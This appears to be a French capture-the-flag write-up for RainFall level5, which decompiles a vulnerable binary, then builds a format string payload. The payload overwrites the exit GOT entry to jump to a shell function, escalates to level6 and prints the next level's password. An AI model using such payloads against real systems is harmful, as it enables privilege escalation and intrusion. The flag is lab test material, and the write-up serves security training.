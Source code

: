 # **Level 5**

Pour le `level5` on decompile le code

```
void o(void)

{
  system("/bin/sh");
                    // WARNING: Subroutine does not return
  _exit(1);
}



void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    // WARNING: Subroutine does not return
  exit(1);
}



void main(void)

{
  n();
  return;
}
```

On comprend qu'on doit toujours faire une `format strign attack` mais cette fois si il ne suffit de mofier la valeur d'une variable

On remarque que la fonction `o` lance `system('/bin/sh')`, ce qui veux dire que nous devons essayer d'acceder a `o`

Pour ce faire on remarque que la fonction `exit` est appele juste apres le `printf`. Ne serait-il pas possible qu'au lieu de diriger sur la vraifonction exit, on dirige l'appelle de `exit` vers `o`

> Evidemment que c'est possible [Got overwrite](https://www.youtube.com/watch?v=9SWYvhY5dYw)

Pour ce faire il faut acceder a la `Global Offset Table (GOT)` pour modifier ou le pointeur de exit mene

Tout d'abord il faut trouver l'addresse a modifier

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838 <==
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```
L'addresse a modifier est donc 0x08049838

Maintenant il faut trouver par quoi la remplacer

```
(gdb) disas o
Dump of assembler code for function o:
=> 0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
Maintenant qu'on a l'addresse de `o` on peux faire notre `format string attack`

Tout d'abord on recupere la position de l'addresse lorsque `printf` est appele

```
level5@RainFall:~$ python -c 'print"\x38\x98\x04\x08" + "%p "*10' > /var/crash/file
level5@RainFall:~$ cat /var/crash/file - | ./level5
80x200 0xb7fd1ac0 0xb7ff37d0 0x8049838 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

Notre addresse est donc en 4eme position, donc nous pouvons construire notre payload sachant que `0x080484a4` est egale a `134513828` en decimal

```
level5@RainFall:~$ python -c 'print"\x38\x98\x04\x08" + "%134513824x%4$n"' > /var/crash/file
level5@RainFall:~$ cat /var/crash/file - | ./level5

.......

id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

> ### NEXT : [Level 6](/level6/resources/README.md)
